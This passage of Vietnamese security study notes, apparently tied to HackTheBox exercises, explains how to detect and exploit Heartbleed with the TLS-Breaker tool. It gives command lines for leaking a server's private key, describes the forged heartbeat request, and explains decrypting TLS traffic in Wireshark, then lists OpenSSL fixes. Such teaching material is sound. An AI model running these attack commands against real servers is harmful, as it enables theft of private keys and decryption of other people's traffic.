 #### 3. **Khai Thác Heartbleed**

##### **Công cụ: TLS-Breaker**
**TLS-Breaker** có module để phát hiện và khai thác Heartbleed.

**Phát hiện server dễ bị tấn công:**
```bash
java -jar apps/heartbleed-1.0.1.jar -connect <IP>:<Port>
```
- **Kết quả nếu server dễ bị tấn công:**
  ```
  Vulnerable. The server responds with a heartbeat message, 
  although the client heartbeat message contains an invalid Length value.
  ```

**Khai thác để lấy khóa riêng:**
```bash
java -jar apps/heartbleed-1.0.1.jar -connect <IP>:<Port> -executeAttack -heartbeats <n>
```
- Tùy chọn `-heartbeats` để gửi nhiều thông điệp Heartbeat, tăng khả năng thành công.

---

#### 4. **Quy trình Tấn Công**

1. **Client gửi yêu cầu Heartbeat:**
   - Payload: `"HackTheBox"`.
   - Chiều dài giả mạo: `1024`.

2. **Server phản hồi:**
   - Sao chép dữ liệu từ bộ nhớ, bao gồm cả thông tin nhạy cảm.

3. **Kết quả khai thác:**
   - **Private key:** Được trích xuất từ dữ liệu rò rỉ.
   - **Sử dụng Wireshark để giải mã lưu lượng TLS:**
     - Tạo tệp chứa **Client Random** và **Premaster Secret**.
     - Nhập tệp này vào Wireshark để giải mã toàn bộ lưu lượng giao tiếp.

---

#### 5. **Phòng Chống Heartbleed**

##### **Cách khắc phục:**
1. **Cập nhật OpenSSL:** Lên phiên bản **1.0.1g** hoặc các phiên bản mới hơn.
2. **Tắt phần mở rộng Heartbeat:** Nếu không cần thiết.

##### **Kiểm tra phiên bản OpenSSL:**
```bash
openssl version
```

---
# 11. SSL Stripping và Cách Phòng Chống

---

